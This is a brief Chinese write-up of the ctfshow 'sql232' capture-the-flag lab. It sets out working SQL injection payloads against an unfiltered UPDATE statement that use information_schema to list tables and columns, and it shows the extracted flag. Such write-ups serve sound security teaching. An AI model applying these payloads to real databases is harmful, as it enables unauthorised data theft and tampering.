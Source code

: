 # ctfshow-sql232



##### 参考链接

其他大佬链接

feng  https://blog.csdn.net/rfrder/article/details/113759746

Je3    https://blog.csdn.net/jvkyvly/article/details/115458909

Y4	 https://blog.csdn.net/solitudi/article/details/110144623





 查询语句 

```
  //分页查询
  $sql = "update ctfshow_user set pass = md5('{$password}') where username = '{$username}';";
```



 返回逻辑 

```
  //无过滤

```





```mysql
和上一题更改了闭合方式很简单

这题其实不需要注意，因为查询的是不同的表：

mysql中不支持子查询更新，准确的说是更新的表不能在set和where中用于子查询。那串英文错误提示就是说，不能先select出同一表中的某些值，再update这个表(在同一语句中)。
update 同一个表注入方法
https://www.cnblogs.com/duanxz/p/5099030.html


注入点，在api/index.php，post传参password和username
必须#号闭合 或者  database() where 1=1#
password=0'),username=database()#&username=1
password=0'),username=user()#&username=1

查询表
password=0'),username=(select group_concat(table_name) from information_schema.tables where table_schema=database())#&username=1

返回update.php
banlist,ctfshow_user,flagaa

查询字段名
password=0'),username=(select group_concat(column_name) from information_schema.columns where table_name='flagaa')#&username=1

返回update.php
id,flagass,info

查询flag
password=0'),username=(select group_concat(flagass) from flagaa)#&username=1


返回update.php
ctfshow{10b34d80-4ee7-40fc-a8da-c60c19e7e198}
```























